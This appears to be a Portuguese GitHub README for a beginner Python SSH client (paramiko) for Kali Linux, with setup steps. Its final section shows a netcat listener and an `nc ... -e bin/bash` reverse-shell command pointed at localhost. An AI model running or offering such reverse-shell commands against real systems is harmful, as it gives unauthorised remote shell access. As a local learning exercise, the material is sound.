 # O que é isso?
Este é um programa simples em python que se conecta ao servidor ssh e executa comandos no mesmo. Foi criado visando seu uso especificamente no Kali Linux.

## Primeiro passo

Caso você ainda não tenha a biblioteca ***paramiko***, istale-a rodando o seguinte comando no terminal do PyCharm: 

` pip install paramiko `

> _O Paramiko é uma implementação do protocolo SSHv2, escrita inteiramente em Python. Ele oferece uma maneira prática e eficaz de realizar operações SSH, como execução de comandos remotos ou transferência de arquivos, programaticamente._
 (Fonte: https://didatica.tech)

Então, execute o ***ssh_cliente***:

 ![image](https://github.com/LeRodrigues2005/Cliente-SSH/assets/97632543/612f3451-1eda-4eb4-a3cf-67fa603ec8ca)

 ## Segundo passo
 Abra um terminal e execute o comando ` ssh root@127.0.0.1 `, onde _root_ é o nome de sua máquina.
 
 Depois, rode o programa ***ssh_client*** no PyCharm. No terminal você verá um input escrito _Comando_.

 ![image](https://github.com/LeRodrigues2005/Cliente-SSH/assets/97632543/defdab5e-0f60-4a77-b789-625a83514ff7)

 ## Terceiro Passo
Utilize o terminal do PyCharm para executar comandos.

![image](https://github.com/LeRodrigues2005/Cliente-SSH/assets/97632543/9afadcee-6ceb-4dfa-b782-873856edb8bd)

## Utilizando o terminal do Kali Linux

Você também pode utilizar o Netcat e fazer os comandos no terminal do próprio linux.

Para isso, execute o seguinte código no terminal do linux: ` nc -lvp 7899 `.
Depois, rode o ***ssh_cliente*** e escreva o seguinte no terminal do PyCharm: ` nc 127.0.0.1 7899 -e bin/bash `, pressione Enter.

Pronto, conexão feita!

![image](https://github.com/LeRodrigues2005/Cliente-SSH/assets/97632543/f9f46e54-42c2-429d-8797-b28bee941e6d)

